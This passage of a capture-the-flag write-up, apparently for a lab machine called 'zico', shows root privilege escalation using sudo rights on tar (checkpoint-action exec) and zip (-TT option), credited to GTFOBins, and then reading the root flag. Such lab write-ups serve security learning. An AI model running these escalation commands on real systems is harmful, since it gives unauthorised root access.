 ## Privilege Escalation
### Sudo Permissions

To get root via tar we execute the following command which will run /bin/bash on every checkpoint, this method was extracted from [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/#sudo).

```bash
zico@zico:~$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
<-cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash   
/bin/tar: Removing leading `/' from member names
root@zico:~#
```

We execute the following zip command to get root, this topic was obtained from [GTFOBINS](https://gtfobins.github.io/gtfobins/zip/#sudo).

```bash
zico@zico:~$ sudo /usr/bin/zip /dev/null /etc/sudoers -T -TT 'bash #'
sudo /usr/bin/zip /dev/null /etc/sudoers -T -TT 'bash #'
  adding: etc/sudoers (deflated 49%)
root@zico:~#
```

And finally we read the root flag.

```bash
root@zico:~# cd /root
cd /root
root@zico:/root# ls 
ls
flag.txt
root@zico:/root# cat flag.txt
cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
# 
# Hope you enjoyed! 
# 
# 
#
#
```
